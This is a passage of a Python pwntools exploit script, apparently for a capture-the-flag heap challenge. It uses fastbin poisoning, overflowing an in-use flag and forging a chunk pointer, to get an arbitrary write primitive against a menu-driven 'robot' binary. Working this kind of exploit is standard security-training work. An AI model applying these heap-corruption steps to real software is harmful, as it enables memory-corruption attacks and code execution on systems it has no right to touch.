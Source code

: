 ```python
    p.sendline('2')
    p.recvuntil('Your choice :')
    p.sendline(str(idx))


def change(idx, name):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('Your choice :')
    p.sendline(str(idx))
    p.recvuntil("Robot's name: \n")
    p.send(name)


def start_robot():
    p.recvuntil('Your choice :')
    p.sendline('4')


def overflow_benderinuse(inuse):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Your choice :')
    p.send('9999' + inuse)


def write(where, what):
    change(1, p64(where))
    change(6, p64(what))


def exp():
    print "step 1"

    # add a fastbin chunk 0x20 and free it
    # so it is in fastbin, idx2->NULL
    add(2, 1)  # idx2
    remove(2)

    # overflow bender inuse with 1
    overflow_benderinuse('\x01')

    # change bender's fd to 0x603138, point to bender's size
    # now fastbin 0x20, idx2->0x603138->NULL
    change(2, p64(0x603138))

    # in order add bender again
    overflow_benderinuse('\x00')

    # add bender again, fastbin 0x603138->NULL
    add(2, 1)

    # in order to malloc chunk at 0x603138
    # we need to bypass the fastbin size check, i.e. set *0x603140=0x20
    # it is at Robot Devil
    add(3, 0x20)

    # trigger malloc, set tinny point to 0x603148
    add(1)

    # wheels must <= 3
    remove(2)
    remove(3)
```